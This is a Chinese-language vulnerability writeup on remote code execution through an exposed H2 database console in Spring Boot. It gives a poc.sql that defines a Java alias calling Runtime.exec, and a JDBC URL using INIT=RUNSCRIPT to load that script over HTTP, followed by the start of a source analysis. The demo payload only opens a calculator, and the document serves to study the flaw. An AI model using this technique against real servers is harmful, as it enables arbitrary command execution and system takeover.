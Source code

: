 ### RUNSCRIPT

使用SpringBoot的H2接口

```
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-data-jpa</artifactId>
    <version>2.1.4.RELEASE</version>
</dependency>
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <scope>runtime</scope>
    <version>1.4.199</version>
</dependency>
```

这个RCE主要通过访问控制台后可以改变JDBC连接的URL造成RCE

条件，spring boot中需要开启console功能，需要在application.properties开启

```
spring.h2.console.enabled=true
spring.datasource.url=jdbc:h2:mem:testdb		# 不加的话可以会报错
spring.data.jpa.repositories.bootstrap-mode=default
```

然后访问`127.0.0.1:8080/h2-console`

![image-20221209131515308](images/61.png)

还有一些功能

```
spring.h2.console.settings.web-allow-others=true		#开启连接远程Web访问H2数据库
```

创建poc.sql

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "Success";}';CALL EXEC ('open -a Calculator.app')
```

然后改变JBDC连接的URL

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8088/poc.sql'
```

![image-20221209133707385](images/62.png)

#### 分析

在org.h2.engine.Engine#openSession，首先分离出INIT的值为`RUNSCRIPT FROM 'http://127.0.0.1:8088/poc.sql'`

![image-20221210110152207](images/63.png)
